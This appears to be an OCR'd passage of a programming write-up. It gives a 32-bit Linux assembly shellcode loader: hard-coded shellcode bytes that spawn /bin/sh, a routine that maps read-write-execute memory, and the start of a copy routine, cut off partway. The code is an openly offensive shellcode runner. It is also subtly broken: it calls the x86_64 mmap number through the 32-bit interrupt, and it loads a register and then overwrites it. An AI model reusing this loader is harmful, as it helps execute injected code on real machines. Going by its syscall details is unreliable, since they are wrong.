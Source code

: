 ##### **6. Example Output**
When the program is executed, it will:
1. Print the shellcode in hexadecimal format.
2. Spawn a shell (`/bin/sh`) if the shellcode executes successfully.

### **Corresponding Assembly Code**
```nasm
section .data
    shellcode db 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x50, 0x89, 0xe2, 0x53, 0x89, 0xe1, 0xb0, 0x0b, 0xcd, 0x80
    shellcode_size equ $ - shellcode

section .bss
    mem_ptr resd 1

section .text
global _start

; Function: mmap
; Allocates memory with read, write, and execute permissions
mmap:
    push ebp
    mov ebp, esp
    push ebx

    ; mmap syscall parameters
    mov ebx, 0          ; addr = NULL
    mov ecx, shellcode_size ; len = shellcode_size
    mov edx, 0x7        ; prot = PROT_READ | PROT_WRITE | PROT_EXEC
    mov esi, 0x22       ; flags = MAP_PRIVATE | MAP_ANONYMOUS
    mov edi, -1         ; fd = -1
    mov eax, 0          ; offset = 0
    mov eax, 9          ; mmap syscall number (9)
    int 0x80            ; Invoke syscall

    cmp eax, -1         ; Check if mmap failed
    je mmap_error

    mov [mem_ptr], eax  ; Store the allocated memory pointer
    jmp mmap_end

mmap_error:
    ; Handle mmap error
    mov eax, 1          ; Exit syscall number
    mov ebx, 1          ; Exit code 1
    int 0x80            ; Invoke syscall

mmap_end:
    pop ebx
    pop ebp
    ret

; Function: memcpy
; Copies the shellcode into the allocated memory
memcpy:
    push ebp
    mov ebp, esp
    push esi
    push edi
    push ecx

    mov esi, shellcode  ; Source = shellcode
    mov edi, [mem_ptr]  ; Destination = allocated memory
```